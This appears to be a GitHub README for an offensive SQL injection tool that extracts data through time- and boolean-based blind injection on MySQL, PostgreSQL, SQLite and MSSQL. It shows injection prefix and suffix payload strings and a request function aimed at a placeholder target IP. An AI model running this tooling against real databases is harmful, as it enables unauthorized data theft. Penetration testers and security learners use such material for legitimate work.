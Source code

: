 # MySQLi
**Time** and **Boolean** based SQLi for **MySQL**,  **PostgreSQL**, **SQLite** and **MSSQL**  

![screenshot](https://github.com/physics-sp/MySQLi/blob/main/demo.png?raw=true)

## Features
- It allows you to have more control over the attack. You can handle logouts, CSRF tokens, and other tricky scenarios in which [sqlmap](https://github.com/sqlmapproject/sqlmap) doesn't work.
- It uses Binary search to increase speed
- Supports multiple types of databases _(MSSQL only supports Boolean based)_

## Usage
Set the database and SQLi type, the strings that go before and after the query and the sleep time if Time based if being used
```python
database = DBType.PostgreSQL
sqlitype = SQLiType.Boolean
PRE = "' or"
POST = '-- -'
sleep_time = 2
```
Re-define the `send_req` function.
```python
def send_req(payload):
    # print(payload)
    params = {'pwn': payload}
    cookies = {}
    proxies = {}
    # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    url = 'http://10.10.10.10/index.php'
    r = requests.get(url,
                     params=params,
                     verify=False,
                     proxies=proxies,
                     allow_redirects=False,
                     cookies=cookies)
    return r
```
Optionally, you might want to re-define the `check_if_true` function to customize the detection of "true" and "false" queries.  
The _compare_value_ variable is the minimum response time of "true" queries in Time based and the Content-Length of "true" queries if Boolean based.
```python
def check_if_true(r, time_elapsed):
    if sqlitype == SQLiType.Time:
        return time_elapsed >= compare_value
    else:
        return int(r.headers['Content-Length']) == compare_value
```

## TODO
- Add Time based to MSSQL
- Add more DBs
- Add threads?
